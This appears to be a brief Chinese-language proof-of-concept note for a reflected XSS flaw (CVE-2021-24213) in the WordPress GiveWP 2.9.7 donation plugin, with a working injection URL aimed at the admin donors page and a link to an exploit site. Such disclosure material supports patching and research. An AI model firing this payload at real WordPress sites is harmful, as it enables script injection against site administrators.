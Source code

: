 # WordPress GiveWP 2.9.7 反射型XSS（CVE-2021-24213）

GiveWP 是WordPress的捐赠插件，由于过滤不严导致反射型XSS漏洞.

poc：

```
http://localhost/wp-admin/edit.php?s=%22%3E<script>alert(0)</script>&start-date&end-date&form_id=0&action=-1&paged=1&give_action=delete_bulk_donor&orderby=id&order=DESC&action2=-1&post_type=give_forms&page=give-donors&view=donors
```

ref：

https://0day.today/exploit/36018